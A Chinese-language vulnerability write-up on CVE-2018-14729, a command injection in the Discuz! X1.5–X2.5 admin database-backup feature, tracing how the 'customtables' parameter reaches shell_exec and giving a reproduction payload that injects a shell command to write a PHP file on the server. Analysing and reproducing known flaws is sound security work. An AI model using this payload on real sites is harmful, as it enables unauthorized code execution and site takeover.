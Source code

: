 （CVE-2018-14729）Discuz!X 1.5 \~ X2.5 后台数据库备份功能远程命令执行 Getshell
==============================================================================

一、漏洞简介
------------

二、漏洞影响
------------

Discuz! X1.5-2.5

三、复现过程
------------

### 漏洞分析

需要注意的是这个漏洞其实是需要登录后台的，并且能有数据库备份权限，所以比较鸡肋。

我这边是用Discuz! 2.5完成漏洞复现的，并用此进行漏洞分析的。

漏洞点在：

    source/admincp/admincp_db.php

第296行：

    @shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile);

在shell\_exec()函数中可控点在\$tablesstr，向上看到第281行：

    $tablesstr = '';
    foreach($tables as $table) {
        $tablesstr .= '"'.$table.'" ';
    }

跟一下\$table的获取流程，在上面的第143行：

    if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') 
    {
        $tables = arraykeys2(fetchtablelist($tablepre), 'Name');
    } 
    elseif($_GET['type'] == 'custom') 
    {
        $tables = array();
        if(empty($_GET['setup'])) 
        {
            $tables = C::t('common_setting')->fetch('custombackup', true);
        } 
        else 
        {
            C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
            $tables = & $_GET['customtables'];
        }
        if( !is_array($tables) || empty($tables)) 
        {
            cpmsg('database_export_custom_invalid', '', 'error');
        }
    }

可以看到：

    C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
    $tables = & $_GET['customtables'];

首先会从\$\_GET的数组中获取customtables字段的内容，判断内容是否为空，不为空则将从外部获取到的customtables字段内容写入common\_setting表的skey=custombackup的svalue字段，写入过程中会将这个字段做序列化存储：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId25.jpg)

之后再将该值赋给\$tables。

至此可以看到漏洞产生的原因是由于shell\_exec()中的\$tablesstr可控，导致代码注入。

### 漏洞复现

首先抓个包

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId27.jpg)

这样可以抓到符合我们条件的请求包。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId28.jpg)

接下来只需要将customtables的内容更改一下就可以造成命令执行了：

    customtables[] = pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId29.jpg)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId30.jpg)

效果为：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId31.jpg)

参考链接
--------

> https://github.com/FoolMitAh/CVE-2018-14729/blob/master/Discuz\_backend\_getshell.md
>
> https://www.anquanke.com/post/id/158270
